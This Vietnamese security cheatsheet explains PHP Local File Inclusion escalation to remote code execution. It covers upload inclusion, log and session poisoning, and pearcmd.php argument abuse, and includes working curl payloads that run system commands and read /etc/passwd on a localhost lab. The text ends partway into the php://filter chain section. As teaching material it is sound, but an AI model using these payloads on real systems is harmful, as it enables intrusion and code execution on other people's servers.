# File Inclusion

## Mục lục

- [Methodology](#methodology)
    - [LFI via Upload File](#lfi-kết-hợp-với-chức-năng-upload-file)
    - [LFI via Log File / Session File / Pearcmd File](#lfi-qua-log-file--session-file--pearcmd-file)
        - [Via Log File](#via-log-file)
        - [Via Session File](#via-session)
        - [Via Pearcmd File](#via-pearcmdphp--url-args)
    - [LFI via PHP Filter Chain](#turn-any-lfi-to-rce-với-php-filter)
    - [Remote File Inclusion](#remote-file-inclusion)
    - [Others](#others)
- [Prevention](#cách-phòng-chống)
- [References](#references)

File Inclusion là lỗ hổng xảy ra khi dữ liệu không tin cậy từ người dùng được đưa vào các hàm nạp file, ví dụ như `include`, `require`, `include_once`, `require_once` trong PHP.

Các hàm này sẽ nạp nội dung của file được truyền vào. Nếu file đó chứa mã PHP hợp lệ, ví dụ `<?php ... ?>`, mã PHP sẽ được phân tích và thực thi bởi server.

Ngoài ra, nếu đường dẫn được truyền vào trỏ tới một symlink, PHP vẫn có thể follow symlink và include file đích mà symlink trỏ tới.

Tùy theo ngữ cảnh, lỗ hổng File Inclusion có thể được tận dụng để:
- Đọc file nhạy cảm trên hệ thống.
- Include file do attacker kiểm soát -> RCE.

## Methodology

Về bản chất, File Inclusion vẫn tương tác trực tiếp với file path. Vì vậy, ta có thể sử dụng các kỹ thuật tương tự như trong [cheatsheet Path Traversal](https://github.com/son-ops/CheatSheet/tree/main/Path_Traversal) để điều khiển đường dẫn.

Ngoài các kỹ thuật Path Traversal thông thường, File Inclusion còn có một số hướng khai thác đặc thù hơn, vì file được nạp có thể được xử lý như PHP code.

### LFI kết hợp với chức năng upload file 

Nếu ứng dụng cho phép upload file lên server, sau đó attacker có thể điều khiển tham số LFI để include chính file đã upload, thì lỗ hổng có thể dẫn tới RCE.

Điểm quan trọng là file upload không nhất thiết phải có extension `.php`. Với PHP `include`, nội dung file sẽ được PHP parser xử lý bất kể extension là gì. Vì vậy attacker có thể upload các file như `.png`, `.txt`, `.jpg`, ... miễn là bên trong file có chứa PHP code hợp lệ, ví dụ:

Trong trường hợp có thể upload zip file hoặc rar file ta cũng có thể sử dụng `zip://` hay `rar://` để tự extract và truy cập vào bên trong.

```
zip://shell.zip%23shell.php
rar://shell.rar%23shell.php
```
Ví dụ:

Đoạn code xử lí bên phía server, và apache đã được cấu hình chuẩn để chặn thực thi code php trong thư mục `/upload`

```php
<?php
    if($_FILES['file']){
        $dest = './upload/' . basename($_FILES['file']['name']);
        move_uploaded_file($_FILES['file']['tmp_name'], $dest);
    }
    if(isset($_GET['path'])){
        include $_GET['path'];
    }
?>
```





### LFI qua Log File / Session File / Pearcmd File

Trong trường hợp có thể tìm thấy LFI nhưng không có chứa năng upload ta có thể nghĩ tới các file có sẵn trên server hoặc những file mà ta có thể tương tác khác chẳng hạn Log File hoặc Session FIle.

#### Via Log File

Trước khi include log file thì ta cần biết dữ liệu nào sẽ được đi vào log và log tại file nào. Tại cấu hình mặc định của apache trong image php:8.4-apache ta thấy:

```
# Tại /etc/apache2/apache2.conf

LogFormat "%v:%p %h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" vhost_combined
LogFormat "%h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" combined
LogFormat "%h %l %u %t \"%r\" %>s %O" common
LogFormat "%{Referer}i -> %U" referer
LogFormat "%{User-agent}i" agent

#Tại /etc/apache2/sites-available/000-default.conf
CustomLog ${APACHE_LOG_DIR}/access.log combined

#Tại /etc/apache2/conf-available/other-vhosts-access-log.conf
CustomLog ${APACHE_LOG_DIR}/other_vhosts_access.log vhost_combined
```

Ta thấy, mặc định log của apache thường chứa `Referer` và `User-agent` header hay `request line`, đây là những tham số mà attacker có thể kiểm soát. Như vậy, nếu ta gửi một request với `User-agent` chứa php code thì php code này sẽ được lưu vào các file log. Ví dụ `access.log`, sau đó ta include file `access.log` này là có thể thành công thực thi php code mà ta đã chèn vào `User-agent`.

Ví dụ:

Gửi request với `User-Agent` là php code



Lúc này file `/var/log/apache2/access.log` đã chứa php code



Thực hiện include file log này thành công thực thi php code



Chú ý:
- Nếu php code chứa double quote thì nó sẽ bị escape thành \"
- Cần cẩn thận khi chèn php code bởi nếu nó gây lỗi thì sẽ gây crash và mọi payload sau này bạn load sẽ không được thực thi
- Nếu là custom log config thì ta chỉ cần biết dữ liệu nào từ người dùng đi vào log và được log vào file nào. Sau đó, ta cũng thực hiện tương tự

Cách xử lí, tư duy tương tự như vậy với các server khác như `Ngnix` hay `Tomcat`, ...

Path log phổ biến:

- `/var/log/apache2/access.log`
- `/var/log/apache/access.log`
- `/var/log/apache2/error.log`
- `/var/log/apache/error.log`
- `/usr/local/apache/log/error_log`
- `/usr/local/apache2/log/error_log`
- `/var/log/nginx/access.log`
- `/var/log/nginx/error.log`
- `/var/log/httpd/error_log`

#### Via Session

Ngoài log file, trong PHP còn có 1 file khác thường được tận dụng đó là file lưu trữ session. File này được tạo khi mà server chạy `session_start()` và với điều kiện tham số `session.save_handler` có giá trị là `files` (mặc định nó được set là `files`).

File này được lưu vào thư mục nào là dựa vào tham số `session.save_path`, nếu set `no values`, PHP sẽ dùng giá trị mặc định của môi trường PHP thường là `/tmp`, hoặc nó được set là 1 path cụ thể thường là `/var/lib/php/`.

Format file được lưu dưới dạng:
- File name: `/tmp/sess_<PHP_SESSID>`
- Content: `<key_name>|<serialized_value>`

##### Server có sử dụng session

Code mô phỏng:
```php
<?php
    session_start();
    if(!isset($_SESSION['dir'])){
        $random = bin2hex(random_bytes(16));
        $_SESSION['dir'] = '/var/www/html/upload/' . ($_COOKIE["name"] ?? $random);
    }
    if(isset($_GET['path'])){
        include $_GET['path'];
    }
?>

# session.save_path = /tmp
```

Để khai thác ta sẽ truy cập với cookie `name = <?php ... ?>` để tạo file session chứa mã php



Đọc thử file session trên server khớp đúng với `PHPSESSID=5cd1b45f70a40fd44f281ab8a2c8e75a`, ta thấy nó đã chứa php code



Giờ chỉ cần inlude đúng đến file path này



##### Via session.upload_progress

Trong trường hợp session không được server sử dụng. Ta vẫn còn 1 cách khác đó là dựa vào `session.upload_progress`. Tham số này được dùng để theo dõi tiến độ upload file và nhét trạng thái đó vào `$_SESSION`. 

Khi thực hiện upload, ta gửi kèm thêm 1 field là giá trị của `session.upload_progress.name` mặc định giá trị của nó là `PHP_SESSION_UPLOAD_PROGRESS`.

Example: 
```bash
curl -H 'Cookie: PHPSESSID=testxyz' --form-string 'PHP_SESSION_UPLOAD_PROGRESS=<?php phpinfo(); ?>' -F "file=@/etc/passwd" http://localhost:5000/index.php
```

Lúc này, một file session mới có name là `sess_testxyz` được tạo với key name chứa php code mà ta vừa gửi.



Ngoài ra ta cũng có thể sử dụng tham số file name là input chèn php code. 

Để tiếp tục khai thác, ta chỉ cần include path tới file này tương tự như trên.

Trong cấu hình mặc định, tham số này cũng được set ON. Tuy nhiên, trạng thái tiến độ được lưu trong `$_SESSION` bị ảnh hưởng bởi tham số `session.upload_progress.cleanup` (mặc định là `ON`). Nếu nó được set `ON`, giá trị đó chỉ tồn tại khi upload đang chạy và bị xóa ngay sau đó. Lúc này, ta chỉ có thể khai thác nếu có RACE CONDITION.

Ngược lại, nếu được set `Off` thì giá trị này sẽ được lưu lại.

#### Via Pearcmd.php + URL args

`Pecl` là công cụ dòng lệnh dùng để quản lý extension của PHP. Công cụ này hoạt động dựa vào thư viện `PEAR`. 

Trong PHP 7.3 đổ xuống, `PEAR` được cài tự động. Từ PHP 7.4 đổ lên, nó chỉ xuất hiện nếu lúc biên dịch PHP bật `--with-pear`.

Tuy nhiên, trong docker image của PHP, nó được cài sẵn và thường nằm ở:

```
/usr/local/lib/php
```

`/usr/local/lib/php/pearcmd.php` là script command-line của PEAR. Bình thường nó được chạy qua CLI, ví dụ:

```bash
php pearcmd.php config-create / "<?php phpinfo(); ?>" /tmp/xyz.php
```

Tuy nhiên, nếu có thể include file `/usr/local/lib/php/pearcmd.php` thì attacker có thể lợi dụng cách PHP tạo `$_SERVER['argv']` từ query string để truyền argument cho `pearcmd.php`.

##### Cơ chế của kĩ thuật

Trong PHP, khi tham số `register_argc_argv` được bật (mặc định được set `ON`). Nếu chưa có `argc/argv` sẵn, PHP sẽ tự động xây `argv` từ `query string` của HTTP request rồi đặt vào `$_SERVER['argv']`

```php
static zend_bool php_auto_globals_create_server(zend_string *name)
{
    if (PG(variables_order) && (strchr(PG(variables_order),'S') || strchr(PG(variables_order),'s'))) {
        php_register_server_variables();

        if (PG(register_argc_argv)) {
            if (SG(request_info).argc) {
                // Nếu request đã có argc/argv sẵn thì copy vào $_SERVER
            } else {
                php_build_argv(SG(request_info).query_string, &PG(http_globals)[TRACK_VARS_SERVER]);
            }
        }

    }
...
```

Việc phân tách tham số khi đưa vào `$_SERVER['argv']` được phân tách bằng dấu `+`.

Ví dụ:
- Với url: http://localhost:5000/index.php?test=1&php=2



- Với url: http://localhost:5000/index.php?test=1+&php=2



Tiếp tục nhìn vào 1 đoạn code trong `pearcmd.php`

```php
PEAR_Command::setFrontendType('CLI');
$all_commands = PEAR_Command::getCommands();

$argv = Console_Getopt::readPHPArgv();
// fix CGI sapi oddity - the -- in pear.bat/pear is not removed
if (php_sapi_name() != 'cli' && isset($argv[1]) && $argv[1] == '--') {
    unset($argv[1]);
    $argv = array_values($argv);
}
$progname = PEAR_RUNTYPE;
array_shift($argv);
$options = Console_Getopt::getopt2($argv, "c:C:d:D:Gh?sSqu:vV");
if (PEAR::isError($options)) {
    usage($options);
}
```

Có thể thấy, đoạn mã này đang không có cơ chế check xem liệu có đang chạy qua CLI không. Mà đọc trực tiếp `argv` qua `readPHPArgv()`. 

```php
public static function readPHPArgv()
    {
        global $argv;
        if (!is_array($argv)) {
            if (!@is_array($_SERVER['argv'])) {
                if (!@is_array($GLOBALS['HTTP_SERVER_VARS']['argv'])) {
                    $msg = "Could not read cmd args (register_argc_argv=Off?)";
                    return PEAR::raiseError("Console_Getopt: " . $msg);
                }
                return $GLOBALS['HTTP_SERVER_VARS']['argv'];
            }
            return $_SERVER['argv'];
        }
        return $argv;
    }
```

Hàm này thực hiện việc kiểm tra xem có tồn tại `$argv` không (không có sẵn khi qua HTTP), nếu không tồn tại nó sẽ lấy `$_SERVER['argv']` nếu đối số này tồn tại. Mà ta lại có thể kiểm soát được `$_SERVER['argv']` qua `query string`, như vậy bây giờ ta hoàn toàn có thể kiểm soát được `$argv` của pear.

Sau khi đọc được `$argv`, `pearcmd.php` gọi:

```php
array_shift($argv);
$options = Console_Getopt::getopt2($argv, "c:C:d:D:Gh?sSqu:vV");
```

`array_shift($argv)` sẽ bỏ phần tử đầu tiên của argv.

Điều này giống với CLI thông thường: phần tử đầu tiên của argv thường là tên chương trình.

Ví dụ khi chạy CLI:

```bash
php pearcmd.php config-create '/<?php phpinfo(); ?>' /tmp/abc.xyz
```

argv lúc này sẽ là:

```php
[
    "pearcmd.php",
    "config-create",
    "/<?php phpinfo(); ?>",
    "/tmp/abc.xyz"
]
```

Sau `array_shift($argv)`, còn lại:

```php
[
    "config-create",
    "/<?php phpinfo(); ?>",
    "/tmp/abc.xyz"
]
```

Lúc này `config-create` nằm đúng vị trí để PEAR nhận nó là command.

Khi khai thác qua HTTP, ta cần tạo hiệu ứng tương tự bằng query string.

Chú ý: Payload thường cần bắt đầu bằng dấu `+` bởi

```txt
/?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php
```

Khi PHP build argv từ query string, nó tạo ra mảng:

```php
[
    "",
    "config-create",
    "/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>",
    "/tmp/hello.php"
]
```

Sau khi `array_shift($argv)` bỏ phần tử đầu tiên, mảng còn lại là:

```php
[
    "config-create",
    "/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>",
    "/tmp/hello.php"
]
```

Lúc này `config-create` nằm đúng vị trí command.

Nếu không có dấu `+` ở đầu:

```txt
/?config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php
```

argv trả về:

```php
[
    "config-create",
    "/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>",
    "/tmp/hello.php"
]
```

Sau `array_shift($argv)`, phần tử `config-create` bị bỏ mất:

```php
[
    "/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>",
    "/tmp/hello.php"
]
```

Khi đó PEAR không còn thấy `config-create` là command nữa, nên payload sẽ fail.

Sau khi `array_shift($argv)`, PEAR parse argument bằng:

```php
$options = Console_Getopt::getopt2($argv, "c:C:d:D:Gh?sSqu:vV");
```

Bên trong, `getopt2()` gọi tiếp `doGetopt()`:

```php
public static function doGetopt($version, $args, $short_options, $long_options = null, $skip_unknown = false)
    {
        // in case you pass directly readPHPArgv() as the first arg
        if (PEAR::isError($args)) {
            return $args;
        }

        if (empty($args)) {
            return array(array(), array());
        }

        $non_opts = $opts = array();

        settype($args, 'array');

        if ($long_options) {
            sort($long_options);
        }

        /*
         * Preserve backwards compatibility with callers that relied on
         * erroneous POSIX fix.
         */
        if ($version < 2) {
            if (isset($args[0][0]) && $args[0][0] != '-') {
                array_shift($args);
            }
        }

        for ($i = 0; $i < count($args); $i++) {
            $arg = $args[$i];
            /* The special element '--' means explicit end of
               options. Treat the rest of the arguments as non-options
               and end the loop. */
            if ($arg == '--') {
                $non_opts = array_merge($non_opts, array_slice($args, $i + 1));
                break;
            }

            if ($arg[0] != '-' || (strlen($arg) > 1 && $arg[1] == '-' && !$long_options)) {
                $non_opts = array_merge($non_opts, array_slice($args, $i));
                break;
            } elseif (strlen($arg) > 1 && $arg[1] == '-') {
                $error = Console_Getopt::_parseLongOption(substr($arg, 2),
                                                          $long_options,
                                                          $opts,
                                                          $i,
                                                          $args,
                                                          $skip_unknown);
                if (PEAR::isError($error)) {
                    return $error;
                }
            } elseif ($arg == '-') {
                // - is stdin
                $non_opts = array_merge($non_opts, array_slice($args, $i));
                break;
            } else {
                $error = Console_Getopt::_parseShortOption(substr($arg, 1),
                                                           $short_options,
                                                           $opts,
                                                           $i,
                                                           $args,
                                                           $skip_unknown);
                if (PEAR::isError($error)) {
                    return $error;
                }
            }
        }

        return array($opts, $non_opts);
    }
```

Trong `doGetopt()`, các argument được chia thành hai nhóm:

```php
$non_opts = $opts = array();
```

- `$opts`: các option dạng `-c`, `-d`, `-D`, ...
- `$non_opts`: các argument không phải option

Đoạn quan trọng:

```php
if ($arg[0] != '-' || (strlen($arg) > 1 && $arg[1] == '-' && !$long_options)) {
    $non_opts = array_merge($non_opts, array_slice($args, $i));
    break;
}
```

Nghĩa là khi gặp argument đầu tiên không bắt đầu bằng `-`, PEAR xem phần còn lại là non-option arguments.

Với payload:

```txt
/?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php
```

sau khi xử lý, phần non-option sẽ trả về:

```php
[
    "config-create",
    "/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>",
    "/tmp/hello.php"
]
```

Sau đó `pearcmd.php` lấy command bằng:

```php
$command = (isset($options[1][0])) ? $options[1][0] : null;
```

Tức là phần tử non-option đầu tiên sẽ được xem là command.

Trong trường hợp này:

```php
$command = "config-create";
```

Sau khi có command, `pearcmd.php` tạo command object:

```php
$cmd = PEAR_Command::factory($command, $config);
```

Sau đó nó lấy danh sách option tương ứng với command đó:

```php
PEAR_Command::getGetoptArgs($command, $short_args, $long_args);
```

Rồi bỏ command ra khỏi danh sách argument:

```php
array_shift($options[1]);
```

Nếu ban đầu non-option arguments là:

```php
[
    "config-create",
    "/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>",
    "/tmp/hello.php"
]
```

sau `array_shift($options[1])` sẽ còn:

```php
[
    "/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>",
    "/tmp/hello.php"
]
```

Đây chính là params truyền cho command `config-create`.

Cuối cùng PEAR chạy command:

```php
$ok = $cmd->run($command, $opts, $params);
```

Về ý tưởng, payload HTTP sẽ tương đương với việc chạy CLI:

```bash
php pearcmd.php config-create '/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>' /tmp/hello.php
```
Như vậy, có thể thấy ta hoàn toàn có thể kiểm soát được `pearcmd.php` và ép nó chạy lệnh tùy ý.

Việc tiếp theo là cần phải biết `pearcmd.php` có thể làm được những gì. 



Phổ biến nhất ta có `config-create`. command này cho phép tạo 1 config mới và ghi file trực tiếp.

Ví dụ:
- Khi chạy lệnh: 
```bash
php pearcmd.php config-create "/<?php system('cat /etc/passwd'); ?>" /tmp/passwd
```
- Lúc này 1 file mới được tạo ra chứa payload
```bash
cat /tmp/passwd
#PEAR_Config 0.9
a:12:{s:7:"php_dir";s:45:"/<?php system('cat /etc/passwd'); ?>/pear/php";s:8:"data_dir";s:46:"/<?php system('cat /etc/passwd'); ?>/pear/data";s:7:"www_dir";s:45:"/<?php system('cat /etc/passwd'); ?>/pear/www";s:7:"cfg_dir";s:45:"/<?php system('cat /etc/passwd'); ?>/pear/cfg";s:7:"ext_dir";s:45:"/<?php system('cat /etc/passwd'); ?>/pear/ext";s:7:"doc_dir";s:46:"/<?php system('cat /etc/passwd'); ?>/pear/docs";s:8:"test_dir";s:47:"/<?php system('cat /etc/passwd'); ?>/pear/tests";s:9:"cache_dir";s:47:"/<?php system('cat /etc/passwd'); ?>/pear/cache";s:12:"download_dir";s:50:"/<?php system('cat /etc/passwd'); ?>/pear/download";s:8:"temp_dir";s:46:"/<?php system('cat /etc/passwd'); ?>/pear/temp";s:7:"bin_dir";s:41:"/<?php system('cat /etc/passwd'); ?>/pear";s:7:"man_dir";s:45:"/<?php system('cat /etc/passwd'); ?>/pear/man";}
```

Tuy nhiên, thì payload của ta khi nhập qua url thì phải ở dạng chuẩn không encode và không được chứa dấu +. Vì thế nên payload của ta không thể chứa space, nhưng có thể bypass bằng cách:
- `<?=system(hex2bin('payload'))?>`

Một số payload khác với pearcmd: https://github.com/w181496/Web-CTF-Cheatsheet/blob/master/README.md#pear

#### Demo

```bash
php -r "echo bin2hex('cat /etc/passwd');"
# output: 636174202f6574632f706173737764

curl --path-as-is 'http://localhost:5000/index.php?+config-create+/&path=/usr/local/lib/php/pearcmd.php&/<?=system(hex2bin("636174202f6574632f706173737764"));?>+/tmp/xyz.php'
#output: 
CONFIGURATION (CHANNEL PEAR.PHP.NET):
=====================================
Auto-discover new Channels     auto_discover    <not set>
Default Channel                default_channel  pear.php.net
HTTP Proxy Server Address      http_proxy       <not set>
PEAR server [DEPRECATED]       master_server    <not set>
Default Channel Mirror         preferred_mirror <not set>
Remote Configuration File      remote_config    <not set>
PEAR executables directory     bin_dir          /&path=/usr/local/lib/php/pearcmd.php&/<?=system(hex2bin("636174202f6574632f706173737764"));?>/pear
PEAR documentation directory   doc_dir          /&path=/usr/local/lib/php/pearcmd.php&/<?=system(hex2bin("636174202f6574632f706173737764"));?>/pear/docs
...

curl http://localhost:5000/index.php?path=/tmp/xyz.php
#output: 
#PEAR_Config 0.9
a:13:{s:7:"php_dir";s:103:"/&path=/usr/local/lib/php/pearcmd.php&/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

### Turn any LFI to RCE với PHP Filter

Nếu không thể tìm bất kì file nào mà bạn có thể kiểm soát và include thì đây là một kĩ thuật nên được nghĩ tới. 

Ý tưởng chính của kỹ thuật này là lợi dụng `php://filter`, kết hợp nhiều filter như `convert.iconv.*` và `convert.base64-decode`, để biến một resource hợp lệ thành nội dung PHP do attacker mong muốn.

Nói cách khác, thay vì cần một file có sẵn chứa PHP payload, attacker cố gắng tạo ra payload thông qua chuỗi filter.

#### Cơ chế của kĩ thuật

Đầu tiên ta cần phải hiểu về `php://filter`

Wrapper này cho phép thực hiện những biến đổi cơ bản trên dữ liệu mà nó lấy từ resource gốc sau đó trả về kết quả đã được biến đổi.

- `resource gốc -> filter 1 -> filter 2 -> filter 3 -> kết quả cuối`

Filter ở đây có thể là:
- `string.toupper`
- `string.tolower`
- `convert.base64-encode`
- `convert.base64-decode`
- `convert.quoted-printable-encode`
- `convert.quoted-printable-decode`
- `convert.iconv.*`

Ví dụ: 
- `php://filter/string.tolower|convert.base64-decode|convert.iconv.UTF8.UTF7/resource=test.txt`

